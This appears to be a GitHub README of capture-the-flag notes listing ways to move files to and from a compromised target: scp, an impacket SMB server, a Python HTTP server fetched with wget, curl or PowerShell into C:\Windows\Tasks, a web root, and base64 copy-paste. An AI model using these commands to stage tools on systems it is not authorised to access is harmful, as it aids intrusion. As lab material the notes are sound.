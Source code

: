 # File-Transfer
## Collection of File Transfer possibilities

In some CTF's it is useful to have a Plan B if you need to transfer a file from or to a remote machine.

## SCP
The bestcase scenario is scp over a SSH connection.
```bash
scp user@sourceIP:/PATH/file.ext user@destinationIP:/PATH/file.ext
```

## SMBserver
Start a SMBserver in you current directory [.] to copy & paste files back and forth.
```bash
sudo impacket-smbserver -smb2support share[NAME] .[/PATH] 
```
Copy from Windows Target
```bash
copy .\file.ext \\SMBserverIP\share\file.ext
```
Copy to a Windows Target
```bash
copy \\SMBserverIP\share\file.ext .\file.ext
```
Make sure to stop the SMBserver after transfer because everybody in that network has access to your SMBserver.

## Python Server
It is also possible to start a Python3 http.server and transfer some files with wget or IWR. <br>
At the Source
```bash
python3 -m http.server 8080
```
At the destination Linux
```bash
wget http://sourceIP:8080/file.ext
curl http://sourceIP:8080/file.ext -o /PATH/fiile.ext
```
At the destination Windows
```bash
powershell.exe IEX(New-Object Net.WebClient).DownloadFile('http://sourceIP/file.ext','C:\Windows\Tasks\file.ext')
iwr "http://sourceIP/file.ext" -outfile "C:\Windows\Tasks\file.ext"
```
## HTML
If your target has a public facing Webpage you can use it to download the files.
```bash
cp file.ext /var/www/html/
chmod 0777 /var/www/html/file.ext
http://source.URL/file.ext
```

## Base64
If all else fails, there is always plan y. <br>
Convert a file or program to a Base64 string copy & paste it to the Target and deconvert it. <br>
<br>
On Linux
```bash
base64 file.ext > fileb64.txt
cat fileb64.txt
```
On Windows
```bash
[convert]::ToBase64String((Get-Content -path "file.ext" -Encoding byte))
```
Copy the Base64 string and paste the string to any Text-Editor.
```bash
vim string.b64
```
Finaly deconvert it back to the origin file.
```bash
base64 -d string.b64 > file.ext
```
